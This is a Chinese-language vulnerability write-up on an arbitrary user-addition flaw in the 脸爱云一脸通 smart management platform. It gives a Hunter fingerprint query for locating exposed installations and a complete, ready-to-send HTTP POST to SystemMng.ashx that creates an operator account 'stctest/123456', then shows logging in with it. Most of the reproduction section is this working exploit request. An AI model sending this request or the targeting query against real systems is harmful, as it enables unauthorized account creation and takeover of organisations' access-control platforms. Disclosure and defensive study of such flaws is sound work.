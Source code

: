 # 脸爱云一脸通智慧管理平台SystemMng存在任意用户添加漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">脸爱云一脸通智慧管理平台是一套功能强大，运行稳定，操作简单方便，用户界面美观，轻松统计数据的一脸通系统。无需安装，只需在后台配置即可在浏览器登录。脸爱云一脸通智慧管理平台SystemMng存在任意用户添加漏洞。攻击者可通过该漏洞获取应用权限。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 脸爱云一脸通智慧管理平台

# 三、资产测绘
+ hunter`web.icon=="4f0be080512ee0b45fc90ff894b6ba60"`
+ 特征

![1700642739314-bb174ac2-c85b-471b-90e8-ed6c02ba5c28.png](./img/wRJWfGtKU0DFAQyR/1700642739314-bb174ac2-c85b-471b-90e8-ed6c02ba5c28-193599.png)

# 四、漏洞复现
```plain
POST /SystemMng.ashx HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=whnrkuaqbz0lyv1fbwtzf23y
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 175

operatorName=stctest&operatorPwd=123456&operpassword=123456&operatorRole=00&visible_jh=%E8%AF%B7%E9%80%89%E6%8B%A9&visible_dorm=%E8%AF%B7%E9%80%89%E6%8B%A9&funcName=addOperators
```

![1700649221299-828e61a4-94f2-4098-9d57-743b83272090.png](./img/wRJWfGtKU0DFAQyR/1700649221299-828e61a4-94f2-4098-9d57-743b83272090-571583.png)

使用添加的账号`stctest/123456`登录系统

![1700649249316-20c950fe-5d84-4d4d-8e9d-ec42c5066ac3.png](./img/wRJWfGtKU0DFAQyR/1700649249316-20c950fe-5d84-4d4d-8e9d-ec42c5066ac3-560999.png)



> 更新: 2024-02-29 23:55:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/txdammysmosfwe7o>
